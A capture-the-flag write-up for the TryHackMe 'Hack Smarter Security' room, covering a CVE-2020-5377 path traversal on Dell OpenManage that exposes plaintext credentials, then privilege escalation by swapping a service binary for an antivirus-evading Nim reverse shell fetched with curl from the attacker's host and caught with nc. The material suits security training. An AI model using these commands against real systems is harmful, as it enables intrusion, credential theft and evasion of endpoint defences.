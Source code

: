 ```yaml
---
title: THM Hack Smarter Security
author: hanhctf
date: 2024-03-22 20:20:20 +0700
categories: [Write-up, THM]
tags: [CVE-2020-5377]
toc: true
mermaid: true
---
```


# [**Hack Smarter Security**](https://tryhackme.com/r/room/hacksmartersecurity)

# Summary
>
> - Port 1311 open ==> DellEMC version 9.4.0.2 ==> CVE-2020-5377
> - Use creds login SSH
> - Login SSH, check Privilege Escalation  
> - AV is running ==> using PrivescCheck.ps1
> - Use Nim-Reverse-Shell to bypass AV ==> get root shell  

## NMAP

```text
21/tcp   open     ftp           syn-ack     Microsoft ftpd
22/tcp   open     ssh           syn-ack     OpenSSH for_Windows_7.7 (protocol 2.0)
80/tcp   open     http          syn-ack     Microsoft IIS httpd 10.0
1311/tcp open     ssl/rxmon?    syn-ack
3389/tcp open     ms-wbt-server syn-ack     Microsoft Terminal Services
7680/tcp filtered pando-pub     no-response
```

## Web Enumeration

After enumeration port 21,80, nothing interested.  

Continous enumeration port 1311, we can see DellEMC login page.

![](/commons/THM/HackSmarterSecurity/0_loginPage.png)  

Check version of it. I see version 9.4.0.2 ==> "Path Traversal reading files" that is assigned CVE-2020-5377.

![](/commons/THM/HackSmarterSecurity/1_versionVuln.png)  

## Foothold

After searching, found [Github Poc](https://github.com/RhinoSecurityLabs/CVEs/blob/master/CVE-2020-5377_CVE-2021-21514/CVE-2020-5377.py)

Try use this to read C:\Windows\win.ini

```shell
python3 CVE-2020-5377.py 10.2.124.72 10.10.103.144:1311                                                                                                                       1 ⨯
Session: 24CC00FC1B32843B5E21BFB3DDC13C76
VID: C6C8851948623A8B
file > c:\windows\win.ini
Reading contents of c:\windows\win.ini:
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Worked.
Try read config file.

```shell
file > c:\inetpub\wwwroot\HackSmarterSec\web.config
Reading contents of c:\inetpub\wwwroot\HackSmarterSec\web.config:
<configuration>
  <appSettings>
    <add key="Username" value="tyler" />
    <add key="Password" value="IAmA1337h4x0randIkn0wit!" />
  </appSettings>
  <location path="web.config">
    <system.webServer>
      <security>
        <authorization>
          <deny users="*" />
        </authorization>
      </security>
    </system.webServer>
  </location>
</configuration>
```

We got a cred.
Use this cred to login SSH

***GOT USER.TXT FLAG***

## Privilege Escalation
  
Try upload Winpeas.exe but detected by AV, can not run Winpeas.

So we use another tool writen in .ps1 to check.
This tool can find in Github [PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck).

We can use curl to upload .ps1 to victim via powershell.

Run tools:

```shell
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML"
```

We found a vuln that can be exploit.

![](/commons/THM/HackSmarterSecurity/2_vuln.png)

OK, but AV is running, so we can try to use stealth reverse shell like this

[Nim-Reverse-Shell](https://github.com/Sn1r/Nim-Reverse-Shell)

Just change IP and PORT

```shell
# Change this
  v1 = "IP"
  v2 = "PORT"
```

And compile.

```shell
nim c -d:mingw --app:gui rev_shell.nim
```

Change rev_shell.exe ==> spoofer-scheduler.exe

Stop service is running.

```shell
Stop-Service spoofer-scheduler
```

Next go to destination and upload shell.

```shell
cd "C:\Program Files (x86)\Spoofer\"
curl http://IP:PORT/spoofer-scheduler.exe -o spoofer-scheduler.exe
```

Listen on attacker machine.

```shell
nc -nlvp PORT
```

And finally start the service.

```shell
Start-Service spoofer-scheduler
```

```shell
nc -nlvp 9000
listening on [any] 9000 ...
connect to [IP] from (UNKNOWN) [10.10.103.144] 49918
C:\Windows\system32> 
```

***GOT FLAG***
